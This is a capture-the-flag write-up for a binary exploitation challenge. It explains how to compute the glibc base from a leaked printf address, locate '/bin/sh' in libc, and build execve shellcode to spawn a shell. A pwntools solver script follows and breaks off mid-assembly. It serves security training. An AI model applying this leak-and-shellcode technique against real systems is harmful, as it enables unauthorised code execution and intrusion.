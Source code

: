 


### 🟢 back to glibc (150)
Solve:
This is a PIE file, which means all addresses are just offsets. Actual addresses are resolved at runtime. Run the program once and look through main() on Binja. It leaks for us the absolute address of printf, a glibc function. From the libc.so.6 file (our local version when testing locally; actual libc.so.6 when exploiting remote server), we can grep for printf and find its offset: `readelf -Ws back_to_glibc | grep printf`. Then, using the equation glibc_base = printf absolute addr - printf offset, we can calculate the base address of glibc, or where glibc is loaded in at runtime. Note that all addresses inside libc.so.6 are offsets relative to this glibc base address. The glibc base address gets randomized every time due to ASLR, even if the binary is no-PIE. 

Our goal is to run execve to pop a shell. That requires us to put a pointer to the string "/bin/sh" into $rdi. Where can the string be found? Answer is within the libc.so.6, as the shared libraries contains this string in order to make sys calls. 

Run `strings -a -t x libc.so.6 | grep "/bin/sh"` to find the offset of "/bin/sh" relative to glibc's base address. Use the equation binsh absolute = binsh offset + glibc base which we calculated previously to calculate the actual address of the string. 

Once found, we are ready to construct the assembly code payload. Use a format string in python to move the "/bin/sh" pointer we calculated into $rdi. Set $rsi and $rdx to zero as we don't care about input arguments nor environment variables. Move 0x3b into $rax for the execve() syscall number. Finally, make the syscall. 

Write a python script to receive the leaked printf address and send our assembly payload.

**Solver's script:**
```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-f", "-h"]
context.arch = "amd64"

p = gdb.debug("./back_to_glibc", '''
b main
b *(main+357)
continue
''') # main+357 is where our assembly code gets called

# Note: when testing locally, use your local computer's own libc.so.6 for offsets
# because local programs will use that
# after verifying your exploit script works,
# change offsets to the provided libc.so.6 (i.e. the version that lives on remote server)

#printf_offset_local = 0x600f0
p.recvuntil(b"one: ")
printf_abs = p.recvuntil(b"\n", drop=True)
printf_abs = u64(printf_abs) # verified on gdb
printf_offset = 0x606f0 # from readelf grep on libc.so.6
glibc_base = printf_abs - printf_offset

# binsh_offset = 0x1d8670 - old calc; wrong
# use: strings -a -t x libc.so.6 | grep "/bin/sh"
binsh_offset = 0x1d8678
binsh_abs = binsh_offset + glibc_base
hex_binsh_abs = hex(binsh_abs)

# assemble our execve shellcode
# verified assembly runs properly on gdb, all except rdi and rax

a = asm('''
mov rdi, {}
mov rsi, 0
```